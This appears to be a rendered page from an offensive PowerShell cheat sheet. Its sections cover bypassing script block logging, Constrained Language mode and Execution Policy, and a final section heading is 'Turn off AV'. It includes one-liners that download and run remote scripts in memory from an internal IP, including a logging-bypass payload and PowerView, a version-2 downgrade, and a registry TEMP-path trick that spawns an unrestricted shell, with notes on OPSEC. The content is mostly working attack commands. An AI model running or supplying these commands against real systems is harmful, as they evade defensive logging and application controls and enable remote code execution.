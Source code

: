 ```powershell
RunWithRegistryNonAdmin.bat
```

### Bypass Enhanced Script Block Logging

```powershell
iex (iwr http://172.16.100.116/sbloggingbypass.txt -UseBasicParsing)
```

### Bypass ConstrainedLanguage

```Powershell
#AppLockerPolicy
$ExecutionContext.SessionState.LanguageMode
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

#Downgrading Powershell
powershell.exe -version 2
powershell.exe -version 2 -c '$ExecutionContext.SessionState.LanguageMode'

#Script
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"
Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe"
sleep 5
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
```

### Bypass Execution Policy 

```powershell
Get-ExecutionPolicy

#Load and execute in memory (OPSEC)
iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.116/PowerView.ps1'))

# Script with disk writing (BAD OPSEC)
powershell -ExecutionPolicy Bypass
powershell.exe -ExecutionPolicy Bypass -File .\script.ps1
powershell.exe -ExecutionPolicy Bypass -Command "& { .\script.ps1 }"
PowerShell.exe -ExecutionPolicy UnRestricted -File .\script.ps1
Get-Content .\script.ps1 | Invoke-Expression
GC .\script.ps1 | iex
iex "Write-Output 'test'"
Powershell -command "Write-Host 'Test'"
```

### Turn off AV (BAD OPSEC)
